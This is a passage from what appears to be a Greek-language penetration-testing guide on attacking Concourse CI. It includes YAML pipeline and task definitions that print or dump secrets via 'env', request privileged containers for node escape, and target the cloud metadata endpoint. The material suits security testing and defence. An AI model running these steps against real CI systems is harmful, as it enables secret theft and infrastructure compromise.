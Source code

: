 * **Κλέψετε τα μυστικά** μέσα στο **container**
* Προσπαθήσετε να **ξεφύγετε** στον κόμβο
* Αριθμήσετε/Κακοποιήσετε το **cloud metadata** endpoint (από το pod και από τον κόμβο, αν είναι δυνατόν)

#### Δημιουργία/Τροποποίηση Pipeline

Αν έχετε αρκετά προνόμια (**ρόλος μέλους ή περισσότερα**) θα μπορείτε να **δημιουργήσετε/τροποποιήσετε νέα pipelines.** Ελέγξτε αυτό το παράδειγμα:
```yaml
jobs:
- name: simple
plan:
- task: simple-task
privileged: true
config:
# Tells Concourse which type of worker this task should run on
platform: linux
image_resource:
type: registry-image
source:
repository: busybox # images are pulled from docker hub by default
run:
path: sh
args:
- -cx
- |
echo "$SUPER_SECRET"
sleep 1000
params:
SUPER_SECRET: ((super.secret))
```
Με την **τροποποίηση/δημιουργία** μιας νέας ροής εργασίας θα είστε σε θέση να:

* **Κλέψετε** τα **μυστικά** (μέσω της εκτύπωσής τους ή μπαίνοντας μέσα στο κοντέινερ και εκτελώντας `env`)
* **Δραπετεύσετε** στη **μονάδα** (δίνοντάς σας αρκετά δικαιώματα - `privileged: true`)
* Αριθμήσετε/Καταχραστείτε το **cloud metadata** endpoint (από το pod και από τη μονάδα)
* **Διαγράψετε** τη δημιουργημένη ροή εργασίας

#### Εκτέλεση Προσαρμοσμένης Εργασίας

Αυτό είναι παρόμοιο με την προηγούμενη μέθοδο, αλλά αντί να τροποποιήσετε/δημιουργήσετε μια εντελώς νέα ροή εργασίας, μπορείτε **απλώς να εκτελέσετε μια προσαρμοσμένη εργασία** (η οποία πιθανότατα θα είναι πολύ πιο **αόρατη**):
```yaml
# For more task_config options check https://concourse-ci.org/tasks.html
platform: linux
image_resource:
type: registry-image
source:
repository: ubuntu
run:
path: sh
args:
- -cx
- |
env
sleep 1000
params:
SUPER_SECRET: ((super.secret))
```
